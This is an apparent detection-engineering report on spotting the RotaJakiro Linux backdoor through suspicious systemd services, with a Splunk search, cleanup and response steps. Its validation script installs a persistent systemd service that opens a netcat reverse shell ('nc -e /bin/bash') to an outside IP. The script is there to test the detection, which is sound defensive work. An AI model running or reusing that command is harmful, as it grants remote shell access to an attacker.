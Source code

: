 RotaJakiro ADS Report
=========================
**Author:** *Aidan Border*

## Goal

Detect attempts to install the RotaJakiro backdoor on Linux hosts by looking for a dropped `systemd` services.

## Categorization

These attempts are categorized under [Persistence / Create or Modify System Process / Systemd service](https://attack.mitre.org/techniques/T1543/002).

## Strategy Abstract
Strategies for defending against this threat should go as follows:

* Use endpoint monitoring and protection tooling to monitor services or processes running on a Linux host.
* Look for specific service names or processes known to be used by RotaJakiro
  * sys-temd-agent.service
  * gvfsd-helper
  * systemd-daemon
* Fire an alert if any of these processes are found on the system.

## Technical Context

Most modern Linux systems use a project called `systemd` as their init system and services manager. `systemd` services are background programs that run to support different functionality. An example of a program that runs as a service is `sshd`, the OpenSSH Server daemon.

There are two directories that `systemd` will look for services in. 

1. System-wide services are located in /etc/systemd/system/services.
2. Services that run when a user logs in are located in ~/.config/systemd/user.

A `systemd` service can technically be used to automatically launch any software on the system. Threat actors can use this to auto-launch malicious software, such as starting a keylogger when a privileged user logs in to attempt to siphon administrator credentials to the system. It is important to note that a keylogger targeting X.Org is very easy to write. Installing a user-level service to log every keystroke to a file would be relatively easy given a way to run a shell script.

## Blind Spots and Assumptions

We assume the system uses systemd. Linux systems using other methods of init are not applicable for the ADS discussed here.

We assume RotaJakiro is running as root. If the backdoor is running as a normal user, it makes use of XDG Autostart (under a graphical environment) or .bashrc for users running without a desktop environment.

Unix systems, such as FreeBSD, do not use systemd. As such, the strategy discussed here is not applicable to those systems.

## False Positives

This alert may cause false positives for systems running the GNOME Desktop Environment if the backdoor is running without root privileges, as the backdoor masquerades as gvfsd, or the GNOME Virtual File System daemon.

## Validation

### Validating the Detection
Validation can be performed by executing the provided shell script to generate a systemd service in the /etc/systemd/system directory.

```bash
echo "[Unit]" > /etc/systemd/system/sys-temd-agent.service
echo "Description=Atomic Red Team Systemd Service" >> /etc/systemd/system/sys-temd-agent.service
echo "" >> /etc/systemd/system/sys-temd-agent.service
echo "[Service]" >> /etc/systemd/system/sys-temd-agent.service
echo "Type=simple"
echo "ExecStart=nc -e /bin/bash 192.168.100.191 9001" >> /etc/systemd/system/sys-temd-agent.service
echo "ExecStop=echo haha youve been pwned" >> /etc/systemd/system/sys-temd-agent.service
echo "" >> /etc/systemd/system/sys-temd-agent.service
echo "[Install]" >> /etc/systemd/system/sys-temd-agent.service
echo "WantedBy=graphical.target" >> /etc/systemd/system/sys-temd-agent.service
systemctl daemon-reload
systemctl enable sys-temd-agent.service
systemctl start sys-temd-agent.service
```

The detection should alert on the generated systemd service.

An example detection alerts on the following search in Splunk: 

```
host="rocky-detection-test" sourcetype="journald" sys-temd-agent.service
```

**ADD SCREENSHOT OF SPLUNK**
![Splunk screenshot showing the example rule](https://github.com/ABeeinSpace/ADS-Report/assets/48869372/43f90beb-e214-474b-a89e-94b386ef7956)


This search will alert every time the sys-temd-agent.service string appears in the journald log, so it is quite noisy right now.

> Note:
> For this example search to work, a Splunk Universal Forwarder must be configured to ship journald logs on the target system to Splunk. Additionally, threat detection engineers should adapt the "host" and "sourcetype" fields to their environment. The "host" field pulls from the target system's hostname. "rocky-detection-test" is probably not valid in your environment.

### Cleanup

Detection engineers may clean up from validating the detection against their environment by doing the following steps:

On the test system:
1. Disable the sys-temd-agent.service using `systemctl`.
2. Remove the sys-temd-agent.service file from the filesystem.
3. Execute `systemctl daemon-reload` to tell systemd that the services defined on the system have changed.
4. If it was set up for this test, remove the Splunk Universal Forwarder from the system (Using the RPM package, it will be installed in the `/opt/splunkforwarder` directory by default).

On the Splunk instance:
1. Remove any alerts defined in the Search and Reporting app.
2. If it was set up specifically for this test, remove the receiving rule from Settings > Forwarding and receiving > Configure receiving.
3. If a separate index was used for this test, remove the index from your Splunk Enterprise or Splunk Cloud environment.

## Priority

Since this is a backdoor with a variety of features, any true positive alerts fired from this detection are set to high.

## Response

The following steps should be taken immediately upon a true positive alert:
  * Remove the system from the network.
  * Disable the systemd service using `systemctl` to prevent it from running at boot, then stop the service. Alternatively, the system can simply be restarted. 
    * Depending on the security requirements of your environment, you may consider deleting the service file from the filesystem.
  * Kill the systemd-daemon binary if it is actively running.
    * Again, depending on your environment, the binary can be removed now as well.
  * Escalate to a security incident after the immediate threat has been removed.

## Additional Resources

DELETE BEFORE SUBMISSION: [GitHub Markdown Reference ](https://docs.github.com/en/get-started/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax#links)


[^1]: Shell script originally published by [Atomic Red Team](https://atomicredteam.io/privilege-escalation/T1543.002/#atomic-test-1---create-systemd-service). I removed the templates and added the path to the systemd service location and name of the systemd service.

[^2]: [Arch boot process - Arch Wiki](https://wiki.archlinux.org/title/Arch_boot_process)

[^3]: [MITRE ATT&CK - Create or Modify System Process: Systemd Service](https://attack.mitre.org/techniques/T1543/002/)

[^4]: [RotaJakiro: A long live secret backdoor with 0 VT detection](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)

[^5]: [Backdoor.Linux.ROTAJAKIRO.A](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/backdoor.linux.rotajakiro.a/) 

[^6]: [Palantir ADS Framework Blog Post](https://blog.palantir.com/alerting-and-detection-strategy-framework-52dc33722df2) 
